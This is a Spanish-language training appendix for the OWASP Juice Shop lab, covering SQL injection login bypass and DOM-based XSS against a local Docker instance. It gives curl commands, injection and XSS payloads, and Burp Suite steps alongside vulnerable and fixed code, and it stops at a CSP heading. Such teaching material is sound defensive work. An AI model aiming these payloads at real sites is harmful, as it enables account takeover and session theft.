


# Apéndice: OWASP Juice Shop — Laboratorio de Explotación Web

## Introducción

Este apéndice es un **laboratorio hands-on de explotación de vulnerabilidades web** usando [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/), la aplicación web más insegura del mundo diseñada específicamente para entrenamiento en seguridad.

### ¿Qué es OWASP Juice Shop?

Juice Shop es una aplicación web moderna (Node.js + Express + SQLite + Angular) que contiene **intencionalmente** vulnerabilidades de seguridad reales. Cada vulnerabilidad es un "challenge" que el estudiante debe descubrir y explotar.

```
ARQUITECTURA DE JUICE SHOP
===========================

┌──────────────────────────────────────────────┐
│              Frontend (Angular)               │
│  ┌─────────┐ ┌─────────┐ ┌───────────────┐  │
│  │  Login  │ │ Basket  │ │  Admin Panel  │  │
│  └────┬────┘ └────┬────┘ └───────┬───────┘  │
│       │           │              │           │
│       └───────────┴──────┬───────┘           │
└──────────────────────────┼───────────────────┘
                           │ HTTP/REST
┌──────────────────────────┼───────────────────┐
│              Backend (Express.js)              │
│  ┌─────────┐ ┌─────────┐ ┌───────────────┐  │
│  │  Auth   │ │  API    │ │  File Server  │  │
│  │ Routes  │ │ Routes  │ │   (Static)    │  │
│  └────┬────┘ └────┬────┘ └───────┬───────┘  │
│       │           │              │           │
│       └───────────┴──────┬───────┘           │
└──────────────────────────┼───────────────────┘
                           │ SQL
┌──────────────────────────┼───────────────────┐
│          Database (SQLite)                     │
│  ┌──────────────────────────────────────┐    │
│  │  Users, Products, BasketItems,       │    │
│  │  Orders, Challenges, Feedback, ...   │    │
│  └──────────────────────────────────────┘    │
└──────────────────────────────────────────────┘
```

### Objetivos de Aprendizaje

Al completar este laboratorio podrás:

- Identificar 7 categorías de vulnerabilidades web en una aplicación real
- Explotar cada vulnerabilidad entendiendo el mecanismo subyacente
- Aplicar metodologías de descubrimiento sistemático
- Implementar remediaciones técnicas específicas
- Mapear cada vulnerabilidad a OWASP Top 10, CWE y MITRE ATT&CK

### Duración

- **Tiempo estimado**: 8-10 horas
- **Tipo**: Individual
- **Dificultad**: Progresiva (fácil → difícil)
- **IMPORTANTE**: DEBES teclear todos los comandos manualmente. NO copy-paste.

---

## Requisitos y Despliegue

### Herramientas Necesarias

| Herramienta | Propósito | Instalación |
|-------------|-----------|-------------|
| **Docker** | Ejecutar Juice Shop | `docker.com` |
| **Burp Suite Community** | Interceptación HTTP | `portswigger.net/burp` |
| **Firefox/Chrome** | Navegador con DevTools | Built-in |
| **jwt.io** | Decodificar tokens JWT | Online |
| **curl** | Peticiones HTTP manuales | Pre-instalado |
| **Python 3** | Scripts de apoyo | Pre-instalado |

### Despliegue con Docker

```bash
# 1. Pull de la imagen oficial
docker pull bkimminich/juice-shop

# 2. Ejecutar en puerto 3000
docker run --name juice-shop -d -p 3000:3000 bkimminich/juice-shop

# 3. Verificar que está corriendo
docker ps | grep juice-shop

# 4. Abrir en navegador
# http://localhost:3000
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 1: Arquitectura de OWASP Juice Shop</div>
<svg viewBox="0 0 600 280" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<rect x="10" y="10" width="580" height="80" rx="8" fill="#3b82f6" opacity="0.2" stroke="#3b82f6" stroke-width="2"/>
<text x="300" y="30" text-anchor="middle" fill="#93c5fd" font-size="14" font-weight="bold">Frontend (Angular)</text>
<rect x="30" y="40" width="100" height="35" rx="4" fill="#3b82f6"/><text x="80" y="62" text-anchor="middle" fill="white" font-size="11">Navbar</text>
<rect x="150" y="40" width="100" height="35" rx="4" fill="#3b82f6"/><text x="200" y="62" text-anchor="middle" fill="white" font-size="11">Search Bar</text>
<rect x="270" y="40" width="100" height="35" rx="4" fill="#3b82f6"/><text x="320" y="62" text-anchor="middle" fill="white" font-size="11">Login</text>
<rect x="390" y="40" width="100" height="35" rx="4" fill="#3b82f6"/><text x="440" y="62" text-anchor="middle" fill="white" font-size="11">Basket</text>
<rect x="510" y="40" width="60" height="35" rx="4" fill="#3b82f6"/><text x="540" y="62" text-anchor="middle" fill="white" font-size="11">Products</text>
<rect x="10" y="105" width="580" height="80" rx="8" fill="#10b981" opacity="0.2" stroke="#10b981" stroke-width="2"/>
<text x="300" y="125" text-anchor="middle" fill="#6ee7b7" font-size="14" font-weight="bold">Backend (Express.js)</text>
<rect x="30" y="135" width="100" height="35" rx="4" fill="#10b981"/><text x="80" y="157" text-anchor="middle" fill="white" font-size="11">Auth API</text>
<rect x="150" y="135" width="100" height="35" rx="4" fill="#10b981"/><text x="200" y="157" text-anchor="middle" fill="white" font-size="11">Products API</text>
<rect x="270" y="135" width="100" height="35" rx="4" fill="#10b981"/><text x="320" y="157" text-anchor="middle" fill="white" font-size="11">Basket API</text>
<rect x="390" y="135" width="100" height="35" rx="4" fill="#10b981"/><text x="440" y="157" text-anchor="middle" fill="white" font-size="11">User API</text>
<rect x="510" y="135" width="60" height="35" rx="4" fill="#10b981"/><text x="540" y="157" text-anchor="middle" fill="white" font-size="11">Feedback</text>
<rect x="100" y="200" width="400" height="65" rx="8" fill="#f59e0b" opacity="0.2" stroke="#f59e0b" stroke-width="2"/>
<text x="300" y="220" text-anchor="middle" fill="#fcd34d" font-size="14" font-weight="bold">Database (SQLite)</text>
<ellipse cx="180" cy="245" rx="50" ry="15" fill="#f59e0b"/><text x="180" y="249" text-anchor="middle" fill="white" font-size="11">Users</text>
<ellipse cx="300" cy="245" rx="50" ry="15" fill="#f59e0b"/><text x="300" y="249" text-anchor="middle" fill="white" font-size="11">Products</text>
<ellipse cx="420" cy="245" rx="50" ry="15" fill="#f59e0b"/><text x="420" y="249" text-anchor="middle" fill="white" font-size="11">Baskets</text>
<line x1="300" y1="90" x2="300" y2="105" stroke="#64748b" stroke-width="2"/><polygon points="300,105 295,95 305,95" fill="#64748b"/>
<text x="310" y="100" fill="#94a3b8" font-size="10">HTTP/REST</text>
<line x1="300" y1="185" x2="300" y2="200" stroke="#64748b" stroke-width="2"/><polygon points="300,200 295,190 305,190" fill="#64748b"/>
<text x="310" y="195" fill="#94a3b8" font-size="10">SQL</text>
</svg>
</div>

### Verificación del Entorno

```bash
# Verificar que la API responde
curl -s http://localhost:3000/api/Products | python3 -m json.tool | head -20

# Deberías ver un JSON con productos como:
# {
#   "status": "success",
#   "data": [
#     { "id": 1, "name": "Apple Juice", ... },
#     ...
#   ]
# }
```

### Panel de Progreso

Juice Shop incluye un panel de progreso integrado que trackea los challenges resueltos:

```
http://localhost:3000/#/score-board
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 2: Score Board — Progreso de challenges</div>
<svg viewBox="0 0 600 200" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<text x="300" y="20" text-anchor="middle" fill="#e2e8f0" font-size="14" font-weight="bold">Challenge Progress by Difficulty</text>
<rect x="20" y="35" width="560" height="30" rx="4" fill="#1e293b" stroke="#334155"/>
<text x="30" y="55" fill="#94a3b8" font-size="11">Easy (1-2★)</text>
<rect x="120" y="38" width="80" height="24" rx="4" fill="#22c55e"/><text x="160" y="54" text-anchor="middle" fill="white" font-size="9">Login Admin</text>
<rect x="210" y="38" width="80" height="24" rx="4" fill="#22c55e"/><text x="250" y="54" text-anchor="middle" fill="white" font-size="9">DOM XSS</text>
<rect x="300" y="38" width="80" height="24" rx="4" fill="#22c55e"/><text x="340" y="54" text-anchor="middle" fill="white" font-size="9">IDOR Basket</text>
<rect x="20" y="75" width="560" height="30" rx="4" fill="#1e293b" stroke="#334155"/>
<text x="30" y="95" fill="#94a3b8" font-size="11">Medium (3-4★)</text>
<rect x="120" y="78" width="100" height="24" rx="4" fill="#3b82f6"/><text x="170" y="94" text-anchor="middle" fill="white" font-size="9">Reflected XSS</text>
<rect x="230" y="78" width="120" height="24" rx="4" fill="#3b82f6"/><text x="290" y="94" text-anchor="middle" fill="white" font-size="9">Directory Traversal</text>
<rect x="20" y="115" width="560" height="30" rx="4" fill="#1e293b" stroke="#334155"/>
<text x="30" y="135" fill="#94a3b8" font-size="11">Hard (5-6★)</text>
<rect x="120" y="118" width="120" height="24" rx="4" fill="#ef4444"/><text x="180" y="134" text-anchor="middle" fill="white" font-size="9">JWT Tampering</text>
<rect x="250" y="118" width="100" height="24" rx="4" fill="#ef4444"/><text x="300" y="134" text-anchor="middle" fill="white" font-size="9">API XSS</text>
<rect x="20" y="160" width="560" height="30" rx="4" fill="#1e293b" stroke="#334155"/>
<text x="30" y="180" fill="#94a3b8" font-size="11">Legend:</text>
<rect x="100" y="165" width="15" height="15" rx="3" fill="#22c55e"/><text x="120" y="177" fill="#94a3b8" font-size="10">Completed</text>
<rect x="210" y="165" width="15" height="15" rx="3" fill="#3b82f6"/><text x="230" y="177" fill="#94a3b8" font-size="10">In Progress</text>
<rect x="330" y="165" width="15" height="15" rx="3" fill="#ef4444"/><text x="350" y="177" fill="#94a3b8" font-size="10">Not Started</text>
</svg>
</div>

::: {.callout-warning}
## ADVERTENCIA DE AISLAMIENTO

- Juice Shop contiene vulnerabilidades INTENCIONALES
- NUNCA despliegues Juice Shop en un servidor accesible desde internet
- Usa SIEMPRE `localhost` o una red aislada
- El contenedor Docker debe tener acceso SOLO desde tu máquina
:::

---

## Marco Ético y Legal

::: {.callout-important}
## OBLIGATORIO: LEER ANTES DE PROCEDER

Este laboratorio es **exclusivamente educativo**. Las técnicas que aprenderás aquí tienen aplicaciones legítimas y ilegales. La diferencia es el **permiso**.
:::

### Reglas de Engagement (ROE)

| Regla | Descripción | Consecuencia de Violación |
|-------|-------------|--------------------------|
| **SOLO localhost** | Explota SOLO tu instancia local | Acceso ilegal a sistemas |
| **NO otros targets** | No uses estas técnicas en sitios web reales sin autorización | Cargos criminales |
| **NO exfiltración** | No extraigas datos reales de terceros | Violación de privacidad |
| **Documenta todo** | Registra cada paso en tu laboratorio | Sin evidencia = sin defensa |
| **Reporta responsablemente** | Si encuentras vulns reales, sigue responsible disclosure | Legal protection |

### Marco Legal Aplicable

| Jurisdicción | Ley | Artículo | Pena |
|--------------|-----|----------|------|
| **Ecuador** | Código Penal | Art. 202-203 | 1-3 años prisión |
| **Ecuador** | LOGIDP | Art. 55-56 | Multas hasta $500K |
| **Internacional** | Convenio de Budapest | Art. 2-6 | Variable por país |
| **EE.UU.** | CFAA (18 USC §1030) | §1030(a)(2) | Hasta 10 años |

### Principio Fundamental

> **Sin permiso escrito = ilegal. Punto.**
>
> No importa si tu intención es "ayudar". No importa si "solo mirabas". No importa si "no hiciste daño". El acceso no autorizado es delito en la mayoría de jurisdicciones.

---

## 1. Login Admin — SQL Injection

### 🎯 Qué es

SQL Injection (SQLi) es una vulnerabilidad que permite a un atacante **inyectar código SQL malicioso** en consultas que la aplicación ejecuta contra su base de datos. Cuando la aplicación concatena entrada del usuario directamente en una query SQL sin sanitizar, el atacante puede alterar la lógica de la consulta.

**OWASP Top 10**: A03:2021 — Injection
**CWE**: CWE-89 — SQL Injection
**MITRE ATT&CK**: T1190 — Exploit Public-Facing Application

### 🔧 Cómo funciona

El mecanismo subyacente es la **concatenación insegura de strings** en la construcción de queries SQL:

```sql
-- Query VULNERABLE (lo que el backend construye):
SELECT * FROM Users WHERE email = '" + userInput + "' AND password = '" + passwordInput + "' AND deletedAt IS NULL

-- Si userInput = ' OR 1=1 --
-- La query resultante es:
SELECT * FROM Users WHERE email = '' OR 1=1 --' AND password = 'anything' AND deletedAt IS NULL
```

El `--` es un comentario en SQL. Todo lo que viene después se ignora. El `OR 1=1` siempre es verdadero, por lo que la condición se cumple para TODOS los registros.

### ⏰ Cuándo ocurre

- Cuando la aplicación **concatena** entrada del usuario en queries SQL
- Cuando NO usa **prepared statements** (parameterized queries)
- Cuando NO valida ni sanitiza la entrada antes de usarla en SQL
- Cuando el ORM genera queries inseguras internamente

### 📍 Dónde se encuentra

En Juice Shop: **Página de Login** (`/login`)

El endpoint vulnerable es la ruta de autenticación que procesa el formulario de login. En versiones antiguas de Juice Shop, la query se construía concatenando el email directamente.

### ❓ Por qué existe

**Causa raíz**: El desarrollador usó **string interpolation** en lugar de **parameterized queries**:

```javascript
// ❌ VULNERABLE — String concatenation
const query = `SELECT * FROM Users WHERE email = '${email}' AND password = '${password}'`

// ✅ SEGURO — Parameterized query
const query = 'SELECT * FROM Users WHERE email = ? AND password = ?'
const result = await db.all(query, [email, password])
```

La diferencia es fundamental: en la versión segura, el motor de base de datos trata los parámetros como **datos**, nunca como **código SQL ejecutable**.

### 🚀 Para qué se explota

**Impacto del atacante**:

| Objetivo | Resultado |
|----------|-----------|
| Bypass de autenticación | Acceder como cualquier usuario sin conocer la contraseña |
| Extracción de datos | Leer tablas completas (usuarios, productos, órdenes) |
| Modificación de datos | UPDATE/DELETE de registros |
| Ejecución de comandos | En algunos casos, ejecutar comandos OS (xp_cmdshell) |

En este challenge específico: **acceder como administrador** sin conocer la contraseña.

### 🔍 Cómo buscarla

**Metodología de descubrimiento**:

```
PASO 1: Identificar puntos de entrada
  ├── Formularios (login, registro, búsqueda)
  ├── Parámetros URL (?id=1, ?search=term)
  ├── Headers HTTP (Cookie, User-Agent)
  └── API endpoints (POST body, JSON fields)

PASO 2: Probar caracteres especiales SQL
  ├── ' (comilla simple) → ¿Error 500?
  ├── " (comilla doble) → ¿Error 500?
  ├── ; (punto y coma) → ¿Múltiples queries?
  ├── -- (comentario) → ¿Query truncada?
  └── OR 1=1 → ¿Resultado inesperado?

PASO 3: Analizar respuestas
  ├── Error de SQL → Vulnerable (error-based)
  ├── Comportamiento diferente → Vulnerable (boolean-based)
  ├── Tiempo de respuesta → Vulnerable (time-based)
  └── Sin cambios → Probablemente seguro
```

**Prueba manual con curl**:

```bash
# Request normal (debería fallar sin credenciales válidas)
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"test@test.com","password":"test123"}'

# Inyectar comilla simple — si hay SQLi, debería dar error
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d "{\"email\":\"' OR 1=1 --\",\"password\":\"anything\"}"
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 3: Flujo de ataque SQLi</div>
<svg viewBox="0 0 600 280" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<text x="300" y="20" text-anchor="middle" fill="#e2e8f0" font-size="14" font-weight="bold">SQLi Login Attack Flow</text>
<line x1="80" y1="35" x2="80" y2="270" stroke="#64748b" stroke-width="1"/>
<line x1="200" y1="35" x2="200" y2="270" stroke="#64748b" stroke-width="1"/>
<line x1="350" y1="35" x2="350" y2="270" stroke="#64748b" stroke-width="1"/>
<line x1="500" y1="35" x2="500" y2="270" stroke="#64748b" stroke-width="1"/>
<rect x="40" y="25" width="80" height="25" rx="4" fill="#ef4444"/><text x="80" y="42" text-anchor="middle" fill="white" font-size="11">Attacker</text>
<rect x="160" y="25" width="80" height="25" rx="4" fill="#3b82f6"/><text x="200" y="42" text-anchor="middle" fill="white" font-size="11">Browser</text>
<rect x="310" y="25" width="80" height="25" rx="4" fill="#10b981"/><text x="350" y="42" text-anchor="middle" fill="white" font-size="11">Server</text>
<rect x="460" y="25" width="80" height="25" rx="4" fill="#f59e0b"/><text x="500" y="42" text-anchor="middle" fill="white" font-size="11">SQLite DB</text>
<polygon points="80,70 350,70 345,65 350,75" fill="#94a3b8"/><text x="215" y="65" text-anchor="middle" fill="#e2e8f0" font-size="10">Email: ' OR 1=1--</text>
<polygon points="80,95 350,95 345,90 350,100" fill="#94a3b8"/><text x="215" y="90" text-anchor="middle" fill="#e2e8f0" font-size="10">Password: anything</text>
<polygon points="200,120 350,120 345,115 350,125" fill="#94a3b8"/><text x="275" y="115" text-anchor="middle" fill="#e2e8f0" font-size="10">POST /rest/user/login</text>
<polygon points="350,145 500,145 495,140 500,150" fill="#94a3b8"/><text x="425" y="140" text-anchor="middle" fill="#e2e8f0" font-size="9">SELECT * WHERE email='' OR 1=1</text>
<polygon points="500,170 350,170 355,165 350,175" fill="#94a3b8" stroke-dasharray="4,2"/><text x="425" y="165" text-anchor="middle" fill="#e2e8f0" font-size="10">Returns ALL users</text>
<polygon points="350,195 200,195 205,190 200,200" fill="#94a3b8" stroke-dasharray="4,2"/><text x="275" y="190" text-anchor="middle" fill="#e2e8f0" font-size="10">200 OK + JWT (admin)</text>
<polygon points="200,220 80,220 85,215 80,225" fill="#94a3b8" stroke-dasharray="4,2"/><text x="140" y="215" text-anchor="middle" fill="#e2e8f0" font-size="10">Logged in as admin</text>
<rect x="120" y="240" width="360" height="30" rx="6" fill="#7f1d1d" stroke="#ef4444"/><text x="300" y="260" text-anchor="middle" fill="#fca5a5" font-size="11">⚠ SQL Injection bypasses authentication</text>
</svg>
</div>

### 💥 Cómo explotarla

**Fundamento técnico**: La query vulnerable usa `email` como filtro principal. Si inyectamos `' OR 1=1 --`, la cláusula WHERE siempre evalúa a TRUE, y el `--` comenta el resto de la query (incluyendo la verificación de password).

**Explotación paso a paso**:

```bash
# Paso 1: Preparar el payload
# Email: ' OR 1=1 --
# Password: (cualquier valor, se ignora por el comentario)

# Paso 2: Enviar la petición con curl
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d "{\"email\":\"' OR 1=1 --\",\"password\":\"x\"}"

# Paso 3: Interpretar la respuesta
# Si es vulnerable, devuelve un token JWT del primer usuario en la tabla
# (típicamente el admin, ya que tiene id=1)

# Respuesta esperada:
# {
#   "authentication": {
#     "token": "eyJhbGciOiJSUzI1NiIs...",
#     "bid": 1
#   }
# }
```

**¿Por qué funciona este payload específico?**

```sql
-- Query original del backend:
SELECT * FROM Users
WHERE email = '' OR 1=1 --'
  AND password = 'x'
  AND deletedAt IS NULL

-- Desglose lógico:
-- 1. email = '' → FALSE (email vacío)
-- 2. OR 1=1    → TRUE (siempre verdadero)
-- 3. --         → Todo lo siguiente es COMENTARIO
--    AND password = 'x'    → IGNORADO
--    AND deletedAt IS NULL → IGNORADO

-- Resultado: WHERE TRUE → devuelve TODOS los usuarios
-- El backend toma el PRIMERO (id=1 = admin)
```

**Con Burp Suite**:

```
1. Abrir Burp Suite → Proxy → Intercept ON
2. En el navegador, ir a http://localhost:3000/login
3. Intentar login con cualquier email/password
4. En Burp, interceptar la petición POST
5. Modificar el body JSON:
   {"email":"' OR 1=1 --","password":"x"}
6. Forward la petición
7. Ver respuesta con token JWT
```

```mermaid
flowchart LR
    A[POST /rest/user/login] --> B[Content-Type: application/json]
    B --> C["Body: {"email":"' OR 1=1--","password":"x"}"]
    C --> D[Response 200 OK]
    D --> E["{"authentication":{"token":"eyJ...","umail":"admin@juice-sh.op"}}"]
    classDef req fill:#3b82f6,stroke:#1e40af,color:#fff
    classDef resp fill:#10b981,stroke:#047857,color:#fff
    class A,B,C req
    class D,E resp
```

*Figura 4: Burp Suite — Request SQLi y respuesta con JWT de admin*

**Verificación del éxito**:

```bash
# Usar el token obtenido para acceder al panel de admin
curl http://localhost:3000/rest/user/whoami \
  -H "Authorization: Bearer <TOKEN_OBTENIDO>"

# Debería devolver información del usuario admin
```

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```javascript
// ❌ ANTES — Vulnerable
app.post('/rest/user/login', (req, res) => {
  const email = req.body.email;
  const password = req.body.password;
  const query = `SELECT * FROM Users WHERE email = '${email}' AND password = '${hash(password)}' AND deletedAt IS NULL`;
  db.all(query, (err, users) => { ... });
});

// ✅ DESPUÉS — Seguro con parameterized queries
app.post('/rest/user/login', async (req, res) => {
  const email = req.body.email;
  const password = req.body.password;

  // 1. Parameterized query — los parámetros NUNCA se interpretan como SQL
  const query = 'SELECT * FROM Users WHERE email = ? AND password = ? AND deletedAt IS NULL';
  const users = await db.all(query, [email, hash(password)]);

  // 2. Input validation adicional
  if (!email || !password) {
    return res.status(400).json({ error: 'Email and password required' });
  }

  // 3. Rate limiting para prevenir brute force
  // 4. Logging de intentos fallidos
  // 5. Account lockout después de N intentos
});
```

**Capas de defensa**:

| Capa | Técnica | Efectividad |
|------|---------|-------------|
| **Primaria** | Parameterized queries / prepared statements | ~100% |
| **Secundaria** | Input validation (whitelist) | Alta |
| **Terciaria** | ORM con query builder seguro | Alta |
| **Monitoreo** | WAF con reglas SQLi | Media (evasión posible) |
| **Defensa en profundidad** | Least privilege DB user | Reduce impacto |

---

## 2. DOM XSS — Cross-Site Scripting

### 🎯 Qué es

DOM-based XSS es una variante de Cross-Site Scripting donde el **payload malicioso se ejecuta en el lado del cliente** (navegador), sin pasar por el servidor. La vulnerabilidad está en cómo el JavaScript del frontend procesa y renderiza datos no sanitizados directamente en el DOM.

**OWASP Top 10**: A07:2021 — Cross-Site Scripting
**CWE**: CWE-79 — Improper Neutralization of Input During Web Page Generation
**MITRE ATT&CK**: T1059.007 — JavaScript

### 🔧 Cómo funciona

El flujo de un ataque DOM XSS:

```
┌─────────────────────────────────────────────────────────────────┐
│                    FLUJO DOM XSS                                 │
│                                                                  │
│  1. Attacker crafts URL con payload:                             │
│     http://site.com/search?q=<script>malicious()</script>       │
│                                                                  │
│  2. Browser loads page → JavaScript lee la URL:                  │
│     const query = new URLSearchParams(window.location.search)   │
│                        .get('q');                                │
│                                                                  │
│  3. JavaScript inserta en DOM SIN sanitizar:                     │
│     document.getElementById('results').innerHTML = query;        │
│     // ⚠️ innerHTML ejecuta scripts!                             │
│                                                                  │
│  4. Browser ejecuta el script malicioso                          │
│     → Cookie stealing, session hijacking, keylogging, etc.       │
└─────────────────────────────────────────────────────────────────┘
```

La diferencia clave con XSS reflejado/stored: **el servidor nunca ve el payload**. Todo ocurre en el cliente.

### ⏰ Cuándo ocurre

- Cuando JavaScript lee datos de fuentes no confiables:
  - `window.location` (URL, hash, search params)
  - `document.referrer`
  - `localStorage` / `sessionStorage`
  - `postMessage` de otros dominios
- Y los inserta en el DOM usando métodos peligrosos:
  - `innerHTML`
  - `document.write()`
  - `outerHTML`
  - `insertAdjacentHTML()`

### 📍 Dónde se encuentra

En Juice Shop: **Búsqueda de productos** y **filtro de idioma**

La vulnerabilidad está en el componente de búsqueda del frontend Angular que toma el parámetro de búsqueda de la URL y lo renderiza sin sanitización adecuada.

### ❓ Por qué existe

**Causa raíz**: Uso de `innerHTML` o equivalente en el framework con datos no sanitizados provenientes de la URL:

```typescript
// ❌ VULNERABLE — Angular con bypass de sanitización
@Component({...})
export class SearchComponent {
  searchResult: string;

  ngOnInit() {
    // Lee directamente de la URL
    this.searchResult = this.route.snapshot.queryParamMap.get('q');
  }
}
```

```html
<!-- ❌ VULNERABLE — innerHTML con datos del usuario -->
<div [innerHTML]="searchResult"></div>
<!-- Angular normalmente sanitiza, pero si se usa bypassSecurityTrustHtml, se desactiva -->
```

### 🚀 Para qué se explota

**Impacto del atacante**:

| Ataque | Descripción | Impacto |
|--------|-------------|---------|
| **Cookie stealing** | `document.cookie` → enviar al servidor del atacante | Robo de sesión |
| **Keylogging** | Capturar todo lo que el usuario teclea | Credenciales, datos sensibles |
| **Phishing in-page** | Inyectar formularios falsos sobre la página real | Suplantación perfecta |
| **Redirection** | Redirigir a sitio malicioso | Malware, phishing |
| **API abuse** | Usar la sesión activa para hacer requests | Acciones en nombre del usuario |

### 🔍 Cómo buscarla

**Metodología de descubrimiento**:

```
PASO 1: Identificar fuentes de datos del cliente
  ├── Parámetros URL (?q=, #, search=)
  ├── Hash fragments (#/search/term)
  ├── localStorage/sessionStorage
  └── postMessage events

PASO 2: Identificar sinks (puntos de renderizado)
  ├── innerHTML, document.write()
  ├── $().html() (jQuery)
  ├── [innerHTML] en Angular
  ├── v-html en Vue
  └── dangerouslySetInnerHTML en React

PASO 3: Probar payloads de prueba
  ├── 
  ├── <svg onload=alert(1)>
  ├── <script>alert(1)</script>
  └── javascript:alert(1)

PASO 4: Verificar ejecución
  ├── ¿Aparece el alert()? → Vulnerable
  ├── ¿Se renderiza como texto? → Probablemente seguro
  └── ¿Error en consola? → Investigar más
```

**Prueba manual**:

```bash
# Abrir en navegador y navegar a:
http://localhost:3000/search?q=test

# Luego modificar la URL directamente:
http://localhost:3000/search?q=

# Si aparece un alert → DOM XSS confirmado
```

```mermaid
flowchart TB
    A[User Input: <iframe src="javascript:alert('xss')">] --> B[Angular Search Component]
    B --> C{bypassSecurityTrustHtml()}
    C -->|Sanitization DISABLED| D[Render in DOM]
    D --> E[<iframe> executes JavaScript]
    E --> F[alert('xss') popup]
    classDef input fill:#ef4444,stroke:#b91c1c,color:#fff
    classDef process fill:#f59e0b,stroke:#b45309,color:#fff
    classDef output fill:#10b981,stroke:#047857,color:#fff
    class A input
    class B,C,D process
    class E,F output
```

*Figura 5: DOM XSS — Flujo de sanitización desactivada en Angular*

### 💥 Cómo explotarla

**Fundamento técnico**: El navegador parsea el HTML inyectado y ejecuta cualquier JavaScript embebido. El payload `` funciona porque:

1. El navegador intenta cargar una imagen con `src=x` (URL inválida)
2. Al fallar la carga, se dispara el evento `onerror`
3. El handler `onerror` ejecuta `alert(1)`
4. Esto demuestra ejecución arbitraria de JavaScript

**Explotación paso a paso**:

```bash
# Paso 1: Construir la URL maliciosa
# Payload: 
# URL-encoded para que sea válida en URL:
# %3Cimg%20src%3Dx%20onerror%3Dalert%28document.cookie%29%3E

# Paso 2: Navegar a la URL
http://localhost:3000/search?q=%3Cimg%20src%3Dx%20onerror%3Dalert%28document.cookie%29%3E

# Paso 3: Verificar
# Debería aparecer un alert con las cookies del usuario
```

**Payload más sofisticado — Cookie stealing**:

```html
<!-- Este payload envía las cookies a un servidor controlado por el atacante -->

```

**¿Por qué funciona?**

```
1. El frontend Angular lee el parámetro 'q' de la URL
2. Lo asigna a una variable del componente
3. La variable se renderiza con [innerHTML] o equivalente
4. El browser parsea el HTML y encuentra 
5. Intenta cargar src=x → falla → dispara onerror
6. onerror ejecuta JavaScript arbitrario
7. document.cookie contiene la sesión activa
8. fetch() envía las cookies al servidor del atacante
```

**Con Burp Suite**:

```
1. Ir a la página de búsqueda
2. Activar Intercept en Burp
3. Realizar una búsqueda normal
4. En Burp, modificar el parámetro q:
   GET /search?q=<svg onload=alert(document.domain)>
5. Forward
6. Verificar ejecución en el navegador
```



*Figura 6: Burp Suite — Interceptación de petición con payload XSS*

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```typescript
// ✅ SEGURO — Angular con sanitización automática
@Component({...})
export class SearchComponent {
  searchResult: SafeHtml;

  constructor(
    private route: ActivatedRoute,
    private sanitizer: DomSanitizer
  ) {}

  ngOnInit() {
    const rawQuery = this.route.snapshot.queryParamMap.get('q');
    // Opción 1: Usar textContent en lugar de innerHTML
    this.searchResult = rawQuery; // Se renderiza como texto plano
  }
}
```

```html
<!-- ✅ SEGURO — Usar text binding en lugar de innerHTML -->
<div>{{ searchResult }}</div>
<!-- Angular escapa automáticamente todo con {{ }} -->

<!-- ✅ SEGURO — Si necesitas HTML, sanitiza explícitamente -->
<div [innerHTML]="sanitizer.sanitize(Html, searchResult)"></div>
```

**Capas de defensa**:

| Capa | Técnica | Efectividad |
|------|---------|-------------|
| **Primaria** | Output encoding (textContent, no innerHTML) | ~100% |
| **Secundaria** | Content Security Policy (CSP) | Alta |
| **Terciaria** | Input validation del lado del cliente | Media |
| **Framework** | Usar sanitización nativa del framework | Alta |

**Content Security Policy recomendado**:

```html
